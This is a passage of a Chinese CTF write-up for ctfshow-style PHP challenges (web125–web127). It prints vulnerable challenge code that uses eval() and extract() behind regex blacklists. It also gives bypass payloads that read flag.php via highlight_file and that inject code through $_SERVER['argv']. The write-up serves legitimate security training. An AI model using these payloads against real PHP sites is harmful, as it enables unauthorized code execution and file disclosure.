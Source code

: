 过滤了echo，flag

```
get： huang=flag.php
post: ?CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[huang])
```

![image-20220812182934133](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208121829226.png?x-oss-process=hzy)

# web126

> php特性

```
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```

限制了长度，g i f c o d

```
get: ?$fl0g=flag_give_me;
post: CTF_SHOW=&CTF[SHOW.COM=&fun=eval($a[0])
```

![image-20220812183301371](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208121833480.png?x-oss-process=hzy)

# web127

```
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
```